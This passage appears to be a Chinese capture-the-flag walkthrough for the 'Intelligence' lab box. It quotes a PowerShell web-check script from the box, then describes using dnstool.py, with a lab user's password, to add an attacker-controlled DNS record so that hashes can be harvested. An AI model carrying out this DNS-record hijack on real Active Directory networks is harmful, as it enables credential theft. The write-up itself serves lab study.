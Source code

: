 使用 cat 命令进行查看。

[![](assets/1701071906-bcf76958ee7a208f459526dc555f2e83.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213051-d9caf9ea-8b96-1.png)

## 利用脚本

这个脚本是一个循环来检索 AD 中名称类似于 web\* 的所有记录。然后，它使用 Invoke-WebRequest 和名称列表并尝试进行身份验证

```plain
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
  try {
    $request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
    if(.StatusCode -ne 200) {
      Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
    }
  } catch {}
}
```

## 获取哈希值

[![](assets/1701071906-6e0358feb4966b1443cce01e8a90f5e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231125213121-eba89820-8b96-1.png)

使用 dnstool.py 来枚举用户 hash  
dnstool.py 是 Krbrelayx 附带的一个脚本，它可以：  
通过 LDAP 添加/修改/删除 Active Directory 集成 DNS 记录。  
值得一试，看看 Tiffany.Molina 是否有权通过使用以下选项运行来进行此类更改：  
● -u intelligence\\Tiffany.Molina- 进行身份验证的用户；  
● -p NewIntelligenceCorpUser9876- 用户的密码；  
● --action add- 添加新记录；  
● --record web-x- 要添加的域；  
● --data 10.01.14.19- 要添加的数据  
● --type A- 要添加的记录类型。

